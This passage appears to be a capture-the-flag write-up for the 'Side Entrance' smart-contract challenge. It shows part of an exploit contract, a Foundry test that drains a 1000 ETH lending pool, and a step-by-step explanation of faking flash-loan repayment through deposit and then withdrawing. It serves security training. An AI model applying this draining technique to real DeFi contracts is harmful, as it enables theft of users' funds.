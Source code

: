 ```
        uint256 poolBalance = address(pool).balance;
        pool.flashLoan(poolBalance);
        pool.withdraw();
    }
}
```
- `src/Week8-9/SideEntranceLenderPool.t.sol`
```
contract SideEntranceTest is Test {
    SideEntranceLenderPool pool;
    Exploit exploitContract;
    address owner;
    address attacker;

    function setUp() public {
        pool = new SideEntranceLenderPool();
        exploitContract = new Exploit(pool);
        owner = address(this);
        attacker = address(0xdead);

        vm.deal(address(pool), 1_000 ether);
        vm.deal(address(attacker), 1 ether);
    }

    function testExploit() public {
        vm.startPrank(attacker);
        exploitContract.exploit();

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(address(pool).balance == 0, "Challenge Incomplete");
    }
}
```

### Exploit
The goal of the exploit is to drain all 1000 ETH from the lending pool. In the `SideEntranceLenderPool` contract, calling `flashLoan` calls the `execute` hook on the receiving contract. Because `deposit` does not have any restrictions on how/when it can be called, it can be used in the `execute` hook to fake a deposit by calling `deposit` with the flash loan amount to seemingly repay the loaned amount, and then `withdraw` can be called to transfer out the original requested loan amount without needing to pay it back.

In the `exploit` function in the attacking contract, we call `flashLoan` with the balance of the lending pool as the loan amount. The `flashLoan` would then call the `execute` hook in our attacking contract with the balance of the lending pool as `msg.value`. In the `execute` hook, we call `deposit` and simply forward `msg.value` to the lending contract. This tricks the lending contract into thinking that we made a deposit into the lending pool, and we are able to bypass the `address(this).balance < balanceBefore` check at the end of the flash loan call because the balance returned to it original value in `balanceBefore`. By the end of `flashLoan`, the attacking contract would have the original flash loan amount recorded as its balance, and it can simply execute `withdraw` to transfer out the balance of the lending pool.
